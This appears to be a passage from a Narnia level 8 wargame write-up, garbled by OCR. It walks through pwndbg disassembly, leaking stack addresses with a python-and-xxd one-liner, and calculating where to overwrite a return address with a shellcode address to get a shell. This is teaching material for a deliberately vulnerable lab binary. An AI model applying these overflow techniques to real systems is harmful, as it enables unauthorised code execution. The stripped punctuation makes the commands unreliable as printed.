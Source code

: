 
More specifically  it is at 0x080484a7 

   highlight bash   
pwndbg  x x 0x080484a7                                                                                                                                                       0x80484a7  main 23      0x83   
   endhighlight   

We can verify that this is the return address of func by disassembling the main function 

   highlight bash   
pwndbg  disass main  
Dump of assembler code for function main   0x08048490   0       push   ebp  0x08048491   1       mov    ebp esp  0x08048493   3       cmp    DWORD PTR  ebp 0x8  0x1  0x08048497   7       jle    0x80484ac  main 28   0x08048499   9       mov    eax DWORD PTR  ebp 0xc   0x0804849c   12      add    eax 0x4  0x0804849f   15      mov    eax DWORD PTR  eax   0x080484a1   17      push   eax  0x080484a2   18      call   0x804841b  func   0x080484a7   23      add    esp 0x4  0x080484aa   26      jmp    0x80484bf  main 47   0x080484ac   28      mov    eax DWORD PTR  ebp 0xc   0x080484af   31      mov    eax DWORD PTR  eax   0x080484b1   33      push   eax  0x080484b2   34      push   0x8048554  0x080484b7   39      call   0x80482e0  printf plt   0x080484bc   44      add    esp 0x8  0x080484bf   47      mov    eax 0x0  0x080484c4   52      leave   0x080484c5   53      ret   End of assembler dump 
   endhighlight   

Note that main 23 comes right after the call to func  Therefore  if we overwrite this return address of func to the address of the shellcode  just as we did in  Narnia 2   h e4mp3rcoeyar  and  Narnia 4   h 125dslwuwfyp    then the shellcode will be executed consequently giving a shell as the narnia9 user 

     Shellcode

Now on the target machine  we can run the narnia8 binary with an input of 20 A s and pipe it over to xxd to get the address of local 8 

   highlight bash   
narnia8 narnia  narnia    narnia8   python  c  print  A  20   xxd                    00000000  4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA                  00000010  4141 4141 d1d7 ffff e8d5 ffff a784 0408  AAAA                                                                                                                      00000020  d1d7 ffff 0a  
   endhighlight   

Here we can see that local 8 is located at 0xffffd7d1  Subtracting this address by 4 bytes  local 8c address    4 bytes  junk    4 bytes  shellcode address    33 bytes  shellcode  13    ftnt13    we get the local 8 address as 0xffffd7a4 

   highlight bash   
    hex 0xffffd7d1  4 4 4 33    
 0xffffd7a4 
   endhighlight   

To calculate the address of the shellcode  we add 20 to the local 8 address to account for 20 A s   4  address of local 8    4  junk    4  address of shellcode  

   highlight bash   
    hex 0xffffd7a4 20 4 4 4   
 0xffffd7c4 
   endhighlight   
